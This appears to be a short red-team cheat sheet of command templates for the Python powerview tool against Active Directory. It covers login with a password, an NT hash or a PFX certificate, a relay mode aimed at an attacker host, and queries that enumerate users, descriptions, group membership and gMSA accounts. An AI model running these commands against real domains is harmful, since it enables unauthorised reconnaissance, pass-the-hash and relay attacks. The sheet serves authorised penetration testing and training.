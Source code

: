# powerview

#powerview
## powerview - use
```
powerview "<domain>"/"<user>":"<password>"@"<dc_fqdn>" -k
```

## powerview - use hash
```
powerview "<domain>"/"<user>":@"<dc_ip>" -H "<nt_hash>"
```

## powerview - use pfx
```
powerview "<dc_ip>" --pfx "<pfx-file>"
```

## powerview - relay mode
```
powerview --relay --relay-host "<attacker_ip>" @<target_ip>
```

## powerview - find user description
```
powerview "<domain>"/"<user>":"<password>"@"<dc_fqdn>" -k  --query "Get-DomainUser -Where 'Description not \"\"' -Properties sAMAccountName,Description"
```

## powerview - find users
```
powerview "<domain>"/"<user>":"<password>"@"<dc_fqdn>" -k  --query "Get-DomainUser -Select sAMAccountName -OutFile <outfile|users.txt>" 
```

## powerview - find group membership
```
powerview "<domain>"/"<user>":"<password>"@"<dc_fqdn>" -k  --query "Get-DomainGroup -LDAPFilter \"(!(sAMAccountName=Denied RODC Password Replication Group))\" -Where 'member contains CN=Users' -Properties member,sAMAccountName"
```

## powerview - find gmsa
```
powerview "<domain>"/"<user>":"<password>"@"<dc_fqdn>" -k  --query "Get-ADObject -Where 'msDS-GroupMSAMembership != ''' -Properties sAMAccountName,msDS-GroupMSAMembership"
```

